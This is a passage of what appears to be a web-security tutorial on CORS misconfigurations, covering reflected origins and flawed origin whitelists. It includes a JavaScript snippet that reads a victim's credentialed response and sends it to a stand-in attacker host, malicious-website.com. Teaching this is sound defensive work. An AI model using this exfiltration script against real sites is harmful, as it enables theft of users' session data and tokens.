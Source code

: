 ```http
GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...
```

It then responds with:

```http
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };
```

## Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:

```http
GET /data HTTP/1.1 Host: normal-website.com ... Origin: https://innocent-website.com
```

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```http
HTTP/1.1 200 OK ... Access-Control-Allow-Origin: https://innocent-website.com
```

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:

```javascript
normal-website.com
```

An attacker might be able to gain access by registering the domain:
